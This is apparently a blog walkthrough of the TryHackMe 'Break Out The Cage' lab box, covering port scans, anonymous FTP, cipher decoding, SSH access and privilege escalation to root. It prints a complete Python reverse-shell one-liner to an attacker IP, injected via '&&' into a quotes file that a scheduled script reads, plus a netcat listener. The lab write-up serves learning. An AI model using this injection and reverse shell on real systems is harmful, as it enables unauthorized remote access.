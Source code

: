 ```yaml
---
layout: post
title: "Break Out The Cage - TryHackMe"
date: 2020-07-11
excerpt: "Walkthrough for Break Out The Cage on TryHackme"
tags: [Break Out The Cage, TryHackMe, encryption, email]
comments: false
---
```




Break Out the Cage is another recently released easy box on [TryHackme](https://www.tryhackme.com). Let's start off with a port scan with **nmap -p- -T4 [machine ip]** This will return 3 open ports: ftp, ssh, and http. 

![Break Out The Cage nmap1](/assets/img/BreakOutTheCage1.png)

Let's enumerate these 3 ports with **nmap -sC -sV -O -p 21,22,80 [machine ip]**

![Break Out The Cage nmap2](/assets/img/BreakOutTheCage2.png)

It appears that there is anonymous FTP access open, let's login as anonymous with **ftp [machine ip]** and enter **anonymous** for the username and password. We are able to successfully connect. I tried to list the directory and received an error so I change the mode to passive with **passive** and I was able to run **ls**. There was a file named **dad_tasks**, that I saved locally to my machine with **get dad_tasks**. I then exited the FTP site with **bye**

![Break Out The Cage ftp dad_tasks](/assets/img/BreakOutTheCage3.png)

Running **cat dad_tasks** from my local machine gives me results that are encoded, most likely in base 64.

![Break Out The Cage cat dad_tasks](/assets/img/BreakOutTheCage4.png)

Let's run **cat dad_tasks | base64 -d** to decode it from base64. This gives us a different type of encoding.

![Break Out The Cage base64 decode](/assets/img/BreakOutTheCage5.png)

This appears to be some sort of cipher. I tried several, and ended up finding out it is a Vigenere cipher. Since I didn't have the key, I used a [Vigenere solver](https://www.guballa.de/vigenere-solver) to assist with cracking this, which results in the following.

![Break Out The Cage Vigenere Cipher](/assets/img/BreakOutTheCage6.png)

The last line contains what appears to be Weston's password, which is the answer to question one.

Now that we have a password, let's try to ssh in as weston with **ssh weston@[machine ip]**. Enter the password that was recovered above. Success, now we are logged in as weston.

![Break Out The Cage ssh user access](/assets/img/BreakOutTheCage7.png)

Let's see what weston can run as root with **sudo -l**. We are given the following results:

![Break Out The Cage sudo -l](/assets/img/BreakOutTheCage8.png)

Let's run that file and see what happens. It prints some text. Running **cat /usr/bin/bees** shows you that this is a bash script.

![Break Out The Cage bees](C:\Users\kbvau\AppData\Roaming\Typora\typora-user-images\image-20200711141943938.png)

Unfortunately, we are not able to edit this file. However, every few minutes a broadcast message from cage comes up.

![Break Out The Cage broadcast](/assets/img/BreakOutTheCage9.png)

We are not able to access cage's home directory as weston. However, if we run **id**, we can see that weston is part of both the weston and cage groups

![Break Out The Cage id](/assets/img/BreakOutTheCage10.png)

Let's use **find / -group "cage" -print 2>/dev/null** to find all files with the group owner of cage.

![Break Out The Cage find](/assets/img/BreakOutTheCage12.png)

We already know we don't have access to /home/cage, but let's try to navigate to /opt/.dads_scripts/ with **cd /opt/.dads_scripts** and view directory contents and permissions with **ls -al**

![Break Out The Cage dads_scripts](/assets/img/BreakOutTheCage13.png)

It appears we only have read to the python script, so we can't modify it directly. Let's view the contents of the script to see what it does with **cat spread_the_quotes.py**

![Break Out The Cage spread_the_quotes.py](/assets/img/BreakOutTheCage14.png)

It looks like it is opening a file in /opt/.dads_scripts/.files/.quotes and reading a random line and then echoing it. Let's navigate to that directory with **cd /opt/.dads_scripts/.files/**. Next let's run **ls -al**. It appears we have access to write to the **.quotes** file as the cage group has write permissions to it.

![Break Out The Cage .files](/assets/img/BreakOutTheCage15.png)

Let's run **vi .quotes** to open up the contents for editing and delete everything out of the file. This can be done by pressing **dd** over and over until all the lines are deleted. Next, press Insert and  **-- INSERT --** should show up at the bottom of the screen. This allows you to enter in new information. Let's enter the following: **"test" && python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[attacker ip]",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'**. This will end the wall command's input which will send out test as a broadcast, and then && will run the command after, which is a way to create a reverse shell. Next, press escape followed by **:wq!** to write and quit vim. 

![Break Out The Cage .quotes](/assets/img/BreakOutTheCage16.png)

In another terminal window, run **nc -nvlp 4444** and wait a few minutes for the script to run. You should receive a reverse shell connection as cage. Running **whoami** confirms this and running **ls -al** shows an **email_backup** directory and a file called **Super_Duper_Checklist**. Let's view the contents of the Checklist first with **cat Super_Duper_Checklist**.

![Break Out the Cage cat Super_Duper_Checklist](/assets/img/BreakOutTheCage18.png)

This is the user flag for this box. Let's now see if cage has any sudo level permissions. Let's run **sudo -l**. Unfortunately, it asks for cage's password which we do not have. Let's go review the email_backup folder by typing in **cd email_backup**. Running **ls -al** shows 3 files here. Using **cat em*** will type the contents of all 3 emails.

![Break Out The Cage email_backup](/assets/img/BreakOutTheCage19.png)

The emails mention a Face Off sequel and have several references to the word face in them. The last email has something interesting in it based on a weird note from the agent.

![Break Out The Cage email_3](/assets/img/BreakOutTheCage20.png)

This appears to be another encrypted message. Let's see if this is also a Vigenere cipher. The word face is mentioned over and over and over in these emails, so let's see if that's the key to the cipher. Since we are assuming this is the correct key, let's use this [Vigenere Cipher Decoder](https://www.boxentriq.com/code-breaking/vigenere-cipher) to decode the cipher.

![Break Out The Cage Vignere Cipher Decoder](/assets/img/BreakOutTheCage21.png)

In the 3rd email, it states that it likely has something to do with his account on this server. Since there are no other users, it's safe to assume that this could potentially be the password for root. Let's run **su root** and enter the password we obtained above.

![Break Out The Cage su root](/assets/img/BreakOutTheCage22.png)

Success! We now have root access. Let's see if we can find the root flag now. Let's navigate to root's home folder with **cd /root** and run **ls -al**. We will see an email_backup folder. Let's navigate to it with **cd email_backup** and run **ls **, we see two emails in this folder.

![Break Out the Cage finding root flag](/assets/img/BreakOutTheCage23.png)



Let's run **cat em*** to view their contents. In the bottom of the second email is the root flag.

![](/assets/img/BreakOutTheCage24.png)

Success, this is the root flag for this challenge!